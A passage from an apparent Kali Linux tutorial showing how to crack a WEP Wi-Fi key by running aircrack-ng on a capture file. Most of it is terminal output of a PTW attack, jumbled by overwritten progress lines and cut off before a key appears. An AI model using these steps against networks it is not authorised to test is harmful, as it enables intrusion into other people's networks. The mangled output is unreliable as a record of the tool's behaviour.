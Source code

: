 >[!NOTE]
>Wait for some time to capture enough packets, the number of packets should be `at least 1000000`, anything less than that may not be enough to crack the WEP key.

- Now, we will run `aircrack-ng` command to crack the WEP key against the `.cap` file we just created.

    ```bash
    root@kali:~# aircrack-ng capture-01.cap
    ```

- You will see the output similar to this:

    ```bash
    root@kali:~# aircrack-ng capture-01.cap(20480) FE(20480) 50(19712) 
    Reading packets, please wait...9712) 76(19712) 77(19712) 7B(19456) 
    Opening capture-01.cap
    Read 11636874 packets.
    Got 16695 out of 15000 IVsStarting PTW attack with 16695 ivs.ID              ESSID                     Encryption

    1  WIFI_MAC  WIFI_NAME       WEP (16695 IVs)

    Choosing first network as target.

    Reading packets, please wait...
    Opening capture-01.cap
    Read 11636874 packets.

    1 potential targets

    Attack will be restarted every 5000 captured ivs.


                                Aircrack-ng 1.7 

                                Aircrack-ng 1.7 
                [00:00:00] Tested 1244161 keys (got 14262 IVs)
                                Aircrack-ng 1.7 
    KB    depth[00:00:00] Tested 1526401 keys (got 14262 IVs)
        0    7/  8   DB(18944) 1Aircrack-ng 1.7 2) F4(17920) 58(17664) 
    KB    depth[00:00:00] Tested 1666401 keys (got 14262 IVs)
        0    7/  8   DB(18944) 1Aircrack-ng 1.7 2) F4(17920) 58(17664) 
    KB    depth[00:00:01] Tested 1048577 keys (got 16695 IVs)
        0    5/  8   6D(19456) 3Aircrack-ng 1.7 4) 19(18432) 2C(18432) 
    KB    depth[00:00:01] Tested 1376257 keys (got 16695 IVs)
        0    1/  2   B8(22784) 5Aircrack-ng 1.7 6) 6D(22016) 10(21760) 
    KB    depth[00:00:02] Tested 2686977 keys (got 16695 IVs)
        0    0/  2   29(22784) BAircrack-ng 1.7 2) 2A(22016) 6D(22016) 
    KB    depth[00:38:38] Tested 1179649 keys (got 17411 IVs)
        0    0/  2   29(227Got 2Aircrack-ng 1.7 0 IVsStarting PTW attack with 2000KB    depth[00:38:38] Tested 1441793 keys (got 17411 IVs)
        0    0/  2   2A(24064) 5Aircrack-ng 1.7 4) 3A(22784) F2(22784) 
    KB    depth[00:38:38] Tested 1441793 keys (got 17411 IVs)
        0    0/  1   2A(24064) 5F(23808) 29(22784) 3A(22784) F2(22784) 
    KB    depth[00:38:38] Tested 6006 keys (got 17411 IVs)
        0    0/  1   2A(24064) 5F(23808) 29(22784) 3A(22784) F2(22784) 
    KB    depth   byte(vote)F5(22784) 94(22528) 3A(22272) 10(22016) 
        0    0/ 16   2A(24064) 5F(23808) 29(22784) 3A(22784) F2(22784) 
        1   16/ 18   E4(20736) 76(20480) 84(20480) AC(20480) BB(20480) 
        2   10/ 11   71(21760) AB(20992) BD(20992) BE(20992) 21(20736) 
        3    0/  2   4B(28160) 46(25344) 9B(24576) 72(24064) F0(23552) 
        4    0/  1   4D(26624) 8A(22784) 09(22528) 7B(22528) 1B(22016) 
